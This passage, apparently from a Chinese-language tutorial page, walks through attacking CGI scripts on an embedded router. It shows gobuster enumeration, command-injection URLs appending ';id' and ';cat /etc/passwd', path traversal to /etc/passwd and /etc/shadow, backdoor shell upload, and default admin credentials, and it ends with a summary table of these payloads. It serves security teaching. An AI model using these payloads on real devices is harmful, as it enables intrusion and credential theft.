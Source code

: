 ------

### (4) 参数滥用 / 默认密码

- 一些 CGI 脚本可能暴露管理接口，例如 `/cgi-bin/admin.cgi`。
- 如果没有认证或使用默认密码，就可能直接控制设备。

------

## 4. 漏洞扫描和利用流程示例

**假设目标是嵌入式路由器，IP 为 192.168.1.1：**

1. **枚举 CGI 脚本**

```
# 使用 dirb 或 gobuster 枚举 /cgi-bin/
gobuster dir -u http://192.168.1.1/ -w cgi.txt -x cgi,sh,pl
```

1. **测试命令注入**

```
# 尝试常见 payload
http://192.168.1.1/cgi-bin/ping.cgi?host=127.0.0.1;id
```

1. **尝试路径遍历**

```
http://192.168.1.1/cgi-bin/download.cgi?file=../../etc/passwd
```

1. **尝试上传后门**

- 上传 `cmd.sh`
- 访问 `/uploads/cmd.sh?cmd=id`

1. **获取 Shell / 提权**

- 如果 CGI 运行 root，直接获取 root Shell
- 否则结合本地提权漏洞进一步升级权限

------

## 5. 小结

| 分类     | 漏洞类型           | 示例                                      |
| -------- | ------------------ | ----------------------------------------- |
| 命令执行 | command injection  | `ping.cgi?host=127.0.0.1;cat /etc/passwd` |
| 文件操作 | 文件上传/读取      | `upload.cgi` 上传 Shell                   |
| 路径遍历 | 文件读取           | `download.cgi?file=../../etc/shadow`      |
| 管理接口 | 默认密码或参数滥用 | `admin.cgi?user=admin&pass=admin`         |

**注意事项：**
